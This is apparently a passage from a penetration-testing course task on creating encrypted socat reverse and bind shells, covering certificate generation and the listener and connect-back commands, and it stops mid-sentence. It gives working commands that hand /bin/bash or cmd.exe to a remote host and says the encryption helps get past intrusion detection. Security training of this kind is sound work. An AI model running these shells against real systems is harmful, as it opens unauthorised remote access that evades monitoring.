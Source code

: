 One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.  

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`  
  
This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.  

We then need to merge the two created files into a single `.pem` file:

  

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

  

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`  

  

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate _must_ be used on whichever device is listening.  

  

To connect back, we would use:

  

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

## Bind Shells
The same technique would apply for a bind shell:

  

Target:

  

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`  

  

Attacker:

  

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`  

  

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

  

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![](https://i.imgur.com/UbOPN9q.png)

This technique will also work with the special, Linux-only TTY shell covered in the previous task --

